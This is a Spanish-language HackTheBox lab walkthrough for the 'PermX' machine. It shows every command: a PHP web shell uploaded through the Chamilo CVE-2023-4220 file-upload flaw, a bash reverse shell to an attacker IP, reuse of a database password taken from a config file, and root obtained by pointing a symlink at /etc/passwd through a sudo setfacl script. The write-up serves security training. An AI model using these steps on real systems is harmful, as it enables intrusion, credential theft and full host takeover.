


# Tutorial de PermX de HackTheBox en Español



Empezaremos la máquinia realizando un escaneo de todos los puertos por TCP.

```
nmap -p- -sS -Pn -n --min-rate 5000 10.129.123.204

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 15:07 CET
Nmap scan report for 10.129.123.204
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
```

Los puertos abiertos externamente parecen ser solamente el `22` y el `80`, vamos a comprobar los servicios y versiones que están corriendo en estos puertos.

```
nmap -p22,80 -sVC 10.129.123.204
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 15:11 CET
Nmap scan report for 10.129.123.204
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

Como era de esperar, en el puerto `22` hay un servidor `ssh` y en el `80` un `http`.

En el servicio `http` vemos que se muestra un error: `Did not follow redirect to http://permx.htb`, así que vamos a incluir este dominio en el `/etc/hosts` para que nuestra máquina lo reconozca.

```
echo '10.129.123.204  permx.htb' >> /etc/hosts
```

Hecho un reconocimiento básico, vamos a entrar al sitio web desde el navegador.


Tras navegar un rato por el sitio no encontramos nada que parezca ser vulnerable, por lo que haremos "fuzzing" de subdominios en busca de otra página que vulnerar. (con `-fw 18` ocultaremos las respuestas que contengan 18 palabras, ya que este es el numero de palabras que nos devuelve este servidor si no existe el subdominio)

```
ffuf -u http://permx.htb --ic -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 200 -H 'Host: FUZZ.permx.htb' -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 87ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 2929ms]
:: Progress: [19964/19964] :: Job [1/1] :: 216 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

Unos segundos despues, `ffuf` nos indica que `lms.permx.htb` contiene algo diferente a los demás, por lo que vamos a añadirlo tambien al `/etc/hosts` e investigarlo desde el navegador.

```
echo '10.129.123.204  lms.permx.htb' >> /etc/hosts
```



La página `lms.permx.htb` contiene un login de un servicio llamado chamilo, *"un sistems para gestión de la formación diseñado para apoyar la educación online"*.

Buscando vulnerabilidades relacionadas con Chamilo, encontramos [CVE-2023-4220](https://www.cve.org/CVERecord?id=CVE-2023-4222).

Esta vulnerabilidad se aprobecha de que usuarios **no autenticados** pueden subir archivos a la máquina a traves de `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` para luego ejecutarlos en la ruta `/main/inc/lib/javascript/bigupload/files`.

```
echo '<?php system($_GET["exec"]) ?>' > cmd.php
```

Para explotar esto, vamos a subir un codigo `php` malicioso y, posteriormente, lo ejecutaremos haciendo una solicitud a la ruta donde se almacene.

Lo subimos:

```
curl -F 'bigUploadFile=@cmd.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

Y lo ejecutamos con el comando whoami para comprobar que tenemos RCE (Ejecución Remota de Comandos).

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php?exec=whoami'

www-data
```

Una vez confirmado que podemos ejecutar comandos en la máquina víctima, intentaremos entablarnos una reverse shell.

```
curl -G 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php' --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.134/1234 0>&1"'
```

Nos ponemos en escucha con netcat.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.123.204] 53274
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Y recibimos la reverse shell. Para trabajar más cómodamente vamos a hacer el tratamiento de la TTY.

```
script /dev/null -c bash
```

Presionamos `ctrl`+`z`

```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```

Ya en la máquina vamos a entrar a la carpeta del servidor web para buscar credenciales de la base de datos.

```
cd /var/www
ls

chamilo  html
```

```
cd chamilo
```

En chamilo, tras navegar por los directorios encontramos el archivo `app/config/configuration.php` que contiene las credenciales de acceso a la base de datos.

```
cat app/config/configuration.php

...etc...

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

...etc...
```

Encontramos la contraseña `03F6lY3uXAP2bkW8`, que podemos comprobar si se reutiliza en algun usuario de la máquina. Para ello vamos a listar todos los usuarios con una shell (que normalmente acaban en "sh").

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

Hay un usuario `mtz`, vamos a probar a autenticarnos con la contraseña de la base de datos.

Desde la máquina víctima:

```
su mtz
Password: 03F6lY3uXAP2bkW8
```

O desde la máquina atacante con ssh:

```
ssh mtz@permx.htb
mtz@permx.htb's password: 03F6lY3uXAP2bkW8
```

La contraseña es correcta, ya como `mtz` podemos leer la flag de usuario.

```
cd
cat user.txt
```

Para tratar de escalar privilegios vamos a listar los comandos que podemos ejecutar como root mediante sudo.

```
sudo -l

Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Parece que podemos ejecutar el script `/opt/acl.sh` como root sin proporcionar contraseña, vamos a analizarlo para buscar la forma de escalar privilegios.

```
cat /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script intenta modificar una acl de un archivo a tu elección en el directorio `/home/mtz`.

---

**¿Qué es una ACL en linux?**

*Una ACL o lista de control de acceso es una manera de dar permisos especificos a usuarios o grupos de una forma más individualizada.*

*Por eso es tan peligroso dejar en manos del usuario el input de un comando com setfacl, poruque puede darse permisos de lectura o escritura a archivos a los que no debería tener acceso.*

*Podeis aprender más sobre acls y sus usos [aquí](https://www.geeksforgeeks.org/linux-setfacl-command-with-example/).*

---

Una forma de escalar privilegios podría ser dar permisos de escritura a un archivo como el `/etc/passwd` y añadir un usuario con una contraseña que sepamos con `uid=0` y `gid=0`, pero solo podemos editar archivos dentro de `/home/mtz`.

Sin embargo esto puede ser sorteado utilizando un link simbolico en el directorio `/home/mtz` que apunte al archivo que deseemos modificar, en este caso `/etc/passwd`.

```
ln -s /etc/passwd
```

Ahora con el script le vamos a dar todos los permisos al usuario mtz al archivo `/etc/passwd` mediante el link simbolico `/home/mtz/passwd`.

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

Ya deberíamos poder editar el archivo `/etc/passwd`, por lo que primero vamos a crear una hash de una contraseña en `md5`.

```
openssl passwd password123
$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1
```

Y luego incluimos una linea en el `/etc/passwd` de un usuario `rootwo` con las mismas características que `root` con la contraseña que acabamos de crear.

```
echo 'rootwo:$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Una vez hecho esto deberíamos poder autenticarnos como root usando `rootwo` y la contraseña que le hemos definido.

```
su rootwo
Password: password123
```

La autenticación es exitosa, ya somos root. Por lo que ya podemos leer la flag de `root`.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.